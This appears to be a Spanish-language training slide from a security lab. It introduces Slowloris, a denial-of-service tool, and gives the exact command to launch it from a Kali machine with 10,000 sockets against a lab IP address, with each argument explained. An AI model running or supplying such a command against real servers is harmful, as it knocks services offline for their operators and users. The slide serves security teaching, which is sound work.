

# ATACAR (I)

Slowloris es una herramienta de ataques DoS. Ejecutada en una sola máquina, es capaz de cancelar un servidor web. Para ello trata de mantener vigentes simultáneamente muchas peticiones con la víctima.
En la máquina kali, ejecuta los siguientes comandos:
cd slowloris
python3 slowloris.py 10.88.99.33 -s 10000

python3: ejecutaremos un programa en lenguaje Python.
slowloris.py: ejecutamos el programa slowloris.py:
10.88.99.33 (IP pública de la organización): la IP de la víctima es 10.88.99.33.
- S 10000:10000 sockets.

10